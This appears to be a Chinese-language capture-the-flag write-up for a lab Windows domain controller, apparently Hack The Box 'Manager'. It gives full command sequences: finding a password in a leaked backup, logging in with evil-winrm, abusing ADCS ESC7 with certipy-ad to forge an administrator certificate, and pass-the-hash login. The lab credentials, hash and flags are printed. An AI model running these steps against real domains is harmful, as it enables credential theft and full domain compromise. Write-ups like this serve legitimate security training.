---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   -----------   

about.html                                                                                                                  1             1   
contact.html                                                                                                                1             1   
css                                                                                                                         1             0   
images                                                                                                                      1             0   
index.html                                                                                                                  1             1   
js                                                                                                                          1             0   
service.html                                                                                                                1             1   
web.config                                                                                                                  1             1   
website-backup-27-07-23-old.zip                                                                                             1             1   
```


将压缩包下载下来解压后找关于有password的字符

```
grep "password" ./ -r
```


```
cat .old-conf.xml                                            
```


```
raven
R4v3nBe5tD3veloP3r!123  
```

使用evil-winrm登录获取用户flag

```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

```
cd ../desktop
type user.txt
fa7bf04cf53ecea2a3070f8c1f777ac9
```


```
whoami /all
```



用户在Certificate Service DCOM Access（证书服务DCOM访问）组中

使用certipy-ad检测一下有没有漏洞

```
certipy-ad find  -vulnerable -stdout -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 
```


[ESC7](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7) 是指用户拥有CA 的访问权限`Manage CA`。`Manage Certificates`没有公共技术可以滥用`Manage Certificates`访问权限来进行域权限升级，但可以使用它来颁发或拒绝待处理的证书请求。

为用户添加新的权限来授予自己的`Manage Certificates`访问权限。

```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```


可以使用`SubCA`参数在CA上启用`-enable-template`模板。

```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123'
```


我们可以首先根据`SubCA`模板请求证书。该请求将被拒绝，但我们将保存私钥并记下请求 ID

```
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
```


通过我们的`Manage CA`和，我们使用命令和参数`Manage Certificates`发出失败的证书请求。第三名第四名

```
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 16 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```


最后，我们可以使用`req`命令和`-retrieve <request ID>`参数来发出检索的证书。

```
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 16
```


通过证书传递攻击(PTC) 使用创建的证书生成管理员hash。


```
certipy-ad auth -pfx administrator.pfx -username administrator -domain manager.htb -dc-ip 10.10.11.236
```


遇到这个报错就开启python虚拟化环境，可能会下载venv直接下载就行了

```
python -m venv /home/kali/name
source /home/kali/name/bin/activate
```


遇到这个报错就同步服务器时间

```
rdate -n 10.10.11.236
```


一直重复最后的命令，直到出现hash


```
aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```


使用evil-winrm进行hash登录administrator拿到flag

```
evil-winrm -i 10.10.11.236 -u administrator -H 'ae5064c2f62317332c88629e025924ef'
```


```
6281dcd0ecc5c42a28d94eea077254f7
```

